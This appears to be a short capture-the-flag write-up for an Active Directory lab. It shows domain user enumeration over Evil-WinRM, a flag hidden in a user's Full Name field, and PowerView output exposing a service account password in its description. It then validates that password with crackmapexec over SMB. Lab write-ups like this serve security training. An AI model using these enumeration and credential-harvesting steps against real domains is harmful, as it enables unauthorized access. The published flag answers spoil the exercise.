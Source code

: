 > Windows 10 Enterprise Evaluation


### I've hidden a flag inside of the users find it

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
Admin2                   Administrator            Guest
krbtgt                   Machine1                 Machine2
POST                     SQLService               sshd


ne*Evil-WinRM* PS C:\Users\Administrator\Documents> net user /domain POST
User name                    POST
Full Name                    POST{P0W3RV13W_FTW}
Comment
...
```

> POST{P0W3RV13W_FTW}


### Easter Egg

`SQLService` password is in comment

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-DomainUser -SPN
...
badpasswordtime       : 6/7/2023 9:23:07 AM
description           : My password is MYpassword123#
distinguishedname     : CN=SQL Service,CN=Users,DC=CONTROLLER,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : SQL Service
lastlogontimestamp    : 6/7/2023 9:23:16 AM
userprincipalname     : SQLService@CONTROLLER.local
name                  : SQL Service
objectsid             : S-1-5-21-849420856-2351964222-986696166-1107
samaccountname        : SQLService
...
```

Validate password

```bash
┌──(kali㉿kali)-[~/thm]
└─$ cme smb 10.10.104.42 -u 'SQLService' -p 'MYpassword123#'
SMB         10.10.104.42    445    DOMAIN-CONTROLL  [*] Windows 10.0 Build 17763 x64 (name:DOMAIN-CONTROLL) (domain:CONTROLLER.local) (signing:True) (SMBv1:False)
SMB         10.10.104.42    445    DOMAIN-CONTROLL  [+] CONTROLLER.local\SQLService:MYpassword123# (Pwn3d!)
```
